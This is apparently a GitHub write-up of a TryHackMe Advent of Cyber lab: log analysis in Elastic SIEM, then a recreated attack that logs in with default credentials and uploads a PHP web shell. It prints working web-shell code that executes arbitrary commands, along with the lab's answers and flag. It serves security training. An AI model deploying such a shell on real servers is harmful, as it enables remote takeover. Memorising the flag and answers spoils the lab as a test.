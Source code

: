 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis

## Objectives 🎯

1. Investigate suspicious activity on Frosty Pines Resort’s web server using Elastic SIEM.
2. Identify how a web shell was uploaded and accessed.
3. Exploit the same vulnerability to recreate the attack and retrieve the hidden flag.

## Steps 🚀

### Step 1: Investigating the Logs (Blue Team)

#### Setting Up Elastic SIEM
1. Logged into **Kibana** at `http://MACHINE_IP:5601`.
2. Selected the **frostypines-resorts** index under the **Discover** tab.
3. Adjusted the timeframe to:
   ```
   October 1, 2024, 00:00 – October 3, 2024, 20:00
   ```
4. Added relevant fields:
   - `requests`
   - `clientip`
5. Searched for `"shell.php"` in the `requests` field.

#### Findings
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

### Step 2: Exploiting the RCE Vulnerability (Red Team)

#### Exploit Steps
1. **Edit Hosts File:**
   - Added `MACHINE_IP frostypines.thm` to `/etc/hosts`.
2. **Log In:**
   - Accessed `http://frostypines.thm` and logged in using:
     - **Username:** admin@frostypines.thm
     - **Password:** admin
3. **Prepare Web Shell:**
   - Created `shell.php` with the following code:
     ```
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
4. **Upload the Web Shell:**
   - Uploaded `shell.php` as the room image under “Add Room.”
5. **Locate the Shell:**
   - Confirmed the upload at:  
     `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**
   - Accessed the shell and executed:
     ```
     cat flag.txt
     ```

#### Result
- **What is the content of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Key Findings 🔑

1. **Upload Location:** The web shell was uploaded to `/media/images/rooms/shell.php`.
2. **Access Point:** The attacker’s IP was `10.11.83.34`.
3. **Exploit Success:** By recreating the attack, I retrieved the flag using the web shell.

## Lessons Learned 🌟

### Blue Team Insights
1. **Log Analysis Matters:** Elastic SIEM made it efficient to trace the attacker’s actions and pinpoint suspicious activity.
2. **Correlate Data:** Adding context with fields like `requests` and `clientip` accelerated the investigation.
3. **Monitoring Uploads:** Unvalidated file uploads are a significant security gap.

### Red Team Insights
1. **Web Shell Simplicity:** A basic PHP script can compromise a system, emphasizing the importance of validating uploaded files.
2. **Default Credentials Are Dangerous:** The admin account used weak credentials (`admin/admin`), making it an easy target.
3. **Defense Against Exploits:** Proper input validation and access controls could have mitigated this attack.

## Tools and Techniques 🛠️

1. **[Elastic SIEM](https://www.elastic.co/security/siem):** Used to investigate web server logs and identify attacker activity.  
2. **Text Editor:** Created the PHP web shell to exploit the vulnerability.  
3. **Browser:** Navigated and interacted with the Frosty Pines Resort website during the attack.  

## Final Thoughts 🎁

Day 3 highlighted the importance of both offensive and defensive skills in cybersecurity. Investigating the logs with Elastic SIEM provided clear insights into the attack, while exploiting the vulnerability demonstrated how impactful simple security oversights can be. Excited to tackle Day 4!

### Answers ✅
1. **Where was the web shell uploaded to?**  
   **Answer:** `/media/images/rooms/shell.php`
2. **What IP address accessed the web shell?**  
   **Answer:** `10.11.83.34`
3. **What is the content of the flag.txt?**  
   **Answer:** `THM{Gl1tch_Was_H3r3}`

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis Challenge](day2.md)
- **[Day 3: Log Analysis](day3.md)**
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE Exploitation](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Log Analysis](day7.md)
- [Day 8: Shellcodes](day8.md)
- [More Days to Come!](#)
